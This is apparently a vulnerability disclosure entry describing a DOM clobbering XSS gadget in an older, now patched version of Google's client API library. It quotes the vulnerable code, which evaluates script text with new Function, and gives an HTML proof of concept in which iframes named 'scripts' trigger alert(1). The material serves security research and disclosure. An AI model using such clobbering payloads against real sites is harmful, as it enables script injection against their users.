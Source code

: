 ## Google Client API

### Meta

+ Library: Google Client API
+ Starts: N/A
+ Version: 5BIk7BglYEE
+ Payload: ```<iframe name="scripts" src=”https://apis.google.com/js/api.js”></iframe><iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert(1)</iframe>```
+ Impact: XSS
+ CVE: N/A
+ Status: Patched
+ Foundby: TheHulk


### Library

https://apis.google.com/js/api.js
https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.5BIk7BglYEE.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAC/rs=AHpOoo9V8V9Op_7rn4BCy9pIOBNUyU2IjA/cb=gapi.loaded_0?le=scs


### Vulnerable Code Snippet

```javascript
var e = document.scripts || document.getElementsByTagName("script") || [];
        d = [];
        var f = [];
        f.push.apply(f, zf("us"));
        for (var h = 0; h < e.length; ++h)
            for (var k = e[h], l = 0; l < f.length; ++l)
                k.src && 0 == k.src.indexOf(f[l]) && d.push(k);
        0 == d.length && 0 < e.length && e[e.length - 1].src && d.push(e[e.length - 1]);
        for (e = 0; e < d.length; ++e)
            d[e].getAttribute("gapi_processed") || (d[e].setAttribute("gapi_processed", !0),
            (f = d[e]) ? (h = f.nodeType,
            f = 3 == h || 4 == h ? f.nodeValue : f.textContent || "") : f = void 0,
            (f = Df(f)) && b.push(f));
        a && Ef(c, a);
```
```javascript
Df = function(a) {
    if (a && !/^\s+$/.test(a)) {
        for (; 0 == a.charCodeAt(a.length - 1); )
            a = a.substring(0, a.length - 1);
        try {
            var b = window.JSON.parse(a)
        } catch (c) {}
        if ("object" === typeof b)
            return b;
        try {
            b = (new Function("return (" + a + "\n)"))()
        } catch (c) {}
        if ("object" === typeof b)
            return b;
        try {
            b = (new Function("return ({" + a + "\n})"))()
        } catch (c) {}
        return "object" === typeof b ? b : {}
    }
}
```

## More Details

Please note that this gadget has been patched by Google through the release of a newer version: [link](https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.6jI6mC1Equ4.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAQ/rs=AHpOoo-79kMK-M6Si-J0E_6fI_9RBHBrwQ/cb=gapi.loaded_0?le=scs). Therefore, initializing `https://apis.google.com/js/api.js` will load the updated script. To demonstrate the DOM clobbering gadgets, we manually load the vulnerable version here.

```
Patched Verison
https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.6jI6mC1Equ4.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAQ/rs=AHpOoo-79kMK-M6Si-J0E_6fI_9RBHBrwQ/cb=gapi.loaded_0?le=scs
```

### PoC
```html

<!--Library-->
  <script>
    // Load the Google API client library
    function loadGapi() {
      const script = document.createElement('script');
      script.src = 'https://apis.google.com/js/api.js';
      script.onload = () => initGapi();
      document.body.appendChild(script);
    }

    // Initialize the Google API client library
    function initGapi() {
      gapi.load('client', initClient);
    }

    // Set up the API client and make a request
    function initClient() {}

    // Load the additional script
    function loadAdditionalScript() {
      const script = document.createElement('script');
      script.src = 'https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.5BIk7BglYEE.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAC/rs=AHpOoo9V8V9Op_7rn4BCy9pIOBNUyU2IjA/cb=gapi.loaded_0?le=scs';
      document.body.appendChild(script);
    }

    // Initialize the loading process
    function initialize() {
      loadGapi();
      loadAdditionalScript();
    }
  </script>

<body onload="initialize()"></body>
<!--Library-->

<!--Payload-->
<iframe name="scripts" src="https://apis.google.com/js/api.js">alert(1)</iframe>
<iframe name="scripts" src="https://apis.google.com/js/api.js">alert(1)</iframe>
<!--Payload-->
```